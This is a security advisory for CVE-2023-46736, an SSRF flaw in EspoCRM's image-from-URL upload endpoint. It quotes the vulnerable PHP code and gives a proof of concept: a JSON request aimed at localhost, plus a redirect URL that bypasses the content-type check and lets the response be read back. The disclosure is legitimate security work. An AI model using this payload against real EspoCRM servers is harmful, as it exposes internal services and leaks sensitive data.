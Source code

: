 ### CVE-2023-46736 EspoCRM upload image from url api is vulnerable to SSRF causing information leak

- **Application**: EspoCRM <=8.0.4

- **Status**: Fixed, CVE assigned

- **Threat Impact**: Sensitive data leakage, Potentially file disclosure

- **Code**: URL is get from the request json data, then passed into `uploadImage` function, which is then passed as parameter of `getImageDataByUrl` to specify as the URL of `curl` function to send the request.

  File `application/Espo/Tools/Attachment/Api/PostFromImageUrl.php`

  ```
  public function process(Request $request): Response
  {
    $data = $request->getParsedBody();
    $url = $data->url ?? null;
    ...
    $attachment = $this->uploadUrlService->uploadImage($url, $fieldData);
   }
  ```

  File: `application/Espo/Tools/Attachment/UploadUrlService.php`

  ```
  public function uploadImage(string $url, FieldData $data): Attachment
  {
    $this->getImageDataByUrl($url);
  }
  
  private function getImageDataByUrl(string $url): ?array {
    ...
    $opts[\CURLOPT_URL]  = $url;
    ...
    $ch = curl_init();
    curl_setopt_array($ch, $opts);
    $response = curl_exec($ch);
  }
  ```

- **POC**:

  1. Listen on 8080 on server side

  2. Send a post request to /api/v1/Attachment/fromImageUrl, with data 

     ```
     {
      "url": "http://localhost:8888",
      "parentType": "Note",
      "field":  "attachments"
     }
     ```

  3. Receive a request on server side. 
  4. To bypass content type check, redirect like https://ssrf.localdomain.pw/img-with-body/301-http-127.0.0.1:8888-.i.jpg can be used. Then retrieve the response back through /api/v1/Attachment/file/id endpoint